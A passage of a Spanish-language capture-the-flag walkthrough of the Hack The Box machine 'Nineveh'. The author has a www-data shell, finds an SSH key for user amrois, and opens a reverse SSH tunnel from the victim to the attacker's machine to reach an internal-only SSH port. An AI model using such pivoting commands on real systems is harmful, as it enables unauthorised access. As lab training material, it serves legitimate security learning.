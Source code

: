 ```bash
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCuL0RQPtvCpuYSwSkh5OvYoY//CTxgBHRniaa8c0ndR+wCGkgf38HPVpsVuu3Xq8fr+N3ybS6uD8Sbt38Umdyk+IgfzUlsnSnJMG8gAY0rs+FpBdQ91P3LTEQQfRqlsmS6Sc/gUflmurSeGgNNrZbFcNxJLWd238zyv55MfHVtXOeUEbkVCrX/CYHrlzxt2zm0ROVpyv/Xk5+/UDaP68h2CDE2CbwDfjFmI/9ZXv7uaGC9ycjeirC/EIj5UaFBmGhX092Pj4PiXTbdRv0rIabjS2KcJd4+wx1jgo4tNH/P6iPixBNf7/X/FyXrUsANxiTRLDjZs5v7IETJzVNOrU0R amrois@nineveh.htb
www-data@nineveh:/var/www/ssl/secure_notes$
```

Tenemos una clave id_rsa, la cual de acuerdo con lo observado, podría ser del usuario **amrois**; sin embargo, no se observa el puerto 22 abierto externamente, así que vamos a validarlo de manera interna.

```bash
www-data@nineveh:/var/www/ssl/secure_notes$ netstat -nat
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN     
tcp        0      0 10.10.10.43:80          10.10.14.27:34440       ESTABLISHED
tcp        0    138 10.10.10.43:56104       10.10.14.27:443         ESTABLISHED
tcp6       0      0 :::22                   :::*                    LISTEN     
www-data@nineveh:/var/www/ssl/secure_notes$
```

Lo que podríamos hacer es un ***Remote Port Forwarding*** para alcanzar el puerto desde nuestra máquina de manera local y aprovechar la id_rsa; por lo que primero creamos un archivo llamado `id_rsa` y le asignamos el privilegio 600.

```bash
❯ chmod 600 id_rsa
```

Ahora procedemos crear un tunel para alcanzar el puerto 22 de la máquina víctima a través del puerto 4646 de nuestro equipo de atacante (**Nota**: En el comando se observa el parámetro `-p 2222` ya que es el puerto que tengo configurado y además es importante iniciar el servicio ssh `service ssh start`).

```bash
www-data@nineveh:/var/www/ssl/secure_notes$ ssh -R 4646:127.0.0.1:22 k4miyo@10.10.14.27 -p 2222
Could not create directory '/var/www/.ssh'.
The authenticity of host '[10.10.14.27]:2222 ([10.10.14.27]:2222)' can't be established.
ECDSA key fingerprint is SHA256:X+58wT4JhCZo1JHA1IfaUg4HqR7NmOzkqFouwQwkYu0.
Are you sure you want to continue connecting (yes/no)? yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
k4miyo@10.10.14.27's password: 
Linux k4mipc 5.14.0-2parrot1-amd64 #1 SMP Debian 5.14.6-2parrot1 (2021-09-25) x86_64
 ____                      _     ____            
|  _ \ __ _ _ __ _ __ ___ | |_  / ___|  ___  ___ 
| |_) / _` | '__| '__/ _ \| __| \___ \ / _ \/ __|
|  __/ (_| | |  | | | (_) | |_   ___) |  __/ (__ 
|_|   \__,_|_|  |_|  \___/ \__| |____/ \___|\___|
                                                 



The programs included with the Parrot GNU/Linux are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Parrot GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
░▒▓    ~  ✔  with k4miyo@k4mipc ▓▒░ 
```
